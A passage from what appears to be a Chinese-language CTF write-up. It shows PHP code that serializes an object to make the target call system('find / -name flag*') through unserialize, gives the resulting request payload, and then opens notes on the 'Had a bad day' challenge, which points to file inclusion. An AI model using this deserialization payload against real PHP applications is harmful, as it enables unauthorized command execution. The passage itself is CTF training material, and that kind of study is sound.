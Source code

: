 ```
<?php
class Test {
    public $p = "find / -name flag*";
    public $func = "system";
}
$c=new Test();
echo serialize($c);
?> 
```

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:18:"find / -name flag*";s:4:"func";s:6:"system";} 
```

![在这里插入图片描述](img/c9714ea08709484e5d81191e012c2de9.png)

![在这里插入图片描述](img/13825ebaa69966322b3702124e015b8e.png)

*   就这样，整个过程不能说复杂，但做的时候就是会想不到。

### 3、[BSidesCF 2020]Had a bad day

*   首先打开，就能注意到url里有一个可变变量`category`，点击会发生变化，尝试随便输入。看是随机出图不太可能是sql注入。

*   当出现报错时，看到`include`，就想到文件包含，同时看报错的文件名。多了个`.php` 看来是预先写好拼接文件后缀名的。
    ![在这里插入图片描述](img/0f19ea697237746f4c8a6abac66454ab.png)
